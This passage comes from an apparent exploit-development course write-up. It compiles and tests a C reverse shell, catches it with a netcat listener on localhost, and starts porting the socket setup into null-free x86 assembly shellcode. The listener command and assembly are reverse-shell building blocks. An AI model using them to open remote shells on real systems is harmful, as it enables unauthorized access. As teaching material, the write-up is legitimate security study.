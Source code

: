 Let's quickly compile and test the code, starting a netcat listener to catch the shell.

```
absolomb@ubuntu:~/SLAE/assignments/2$ gcc reverseshell.c -o reverseshell
absolomb@ubuntu:~/SLAE/assignments/2$ ./reverseshell
```

```
absolomb@ubuntu:~$ nc -lvnp 1234
Listening on [0.0.0.0] (family 0, port 1234)
Connection from [127.0.0.1] port 1234 [tcp/*] accepted (family 2, sport 60270)
id
uid=1000(absolomb) gid=1000(absolomb) groups=1000(absolomb),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare)
```

Now we can begin by breaking down the C code into basically four sections to help port to Assembly.

- Creating a socket
- Connecting to an IP and port
- Redirecting STDIN, STDOUT, and STDERR
- Executing the shell

As you can see there are less things to do this time around compared to the bind shell, so we should have less assembly to write.

## Creating a Socket

We pretty much need to do exactly what we did for our bind shell code here, so I won't go into details on finding syscall numbers from the Linux header files. Check the previous post for that. 

This time around however we'll be using some different instructions to get some of the same tasks done, and a little more efficiently. 

Instead of XOR'ing registers to zero them out and then using MOV instructions we can instead PUSH the value we want in the register to the stack and POP it into the register after.

This allows us to setup our first two arguments for setting up the socket in EAX and EBX as follows. 

```nasm
push 0x66 		; 
pop eax			; socketcall (102) and clean eax
push 0x1		;
pop ebx			; SYS_SOCKET (1) and clean ebx
```

0x66 being the socketcall() syscall and 0x1 the SYS_SOCKET argument. This trick won't work if we need 0's in a register because of the nulls it creates, so for ECX we will simply XOR itself and push that value to the stack for the 0 we need. 

The rest of the code should be familiar if you followed along in the bind shell write up.

```nasm
xor ecx, ecx		; zero out ecx
push ecx		; protocol (0)
push ebx		; SOCK_STREAM (1)
push 0x2		; AF_INET (2)
mov ecx, esp		; point ecx to top of stack
int 0x80		; execute socket

mov edi, eax		; move socket to edi
```
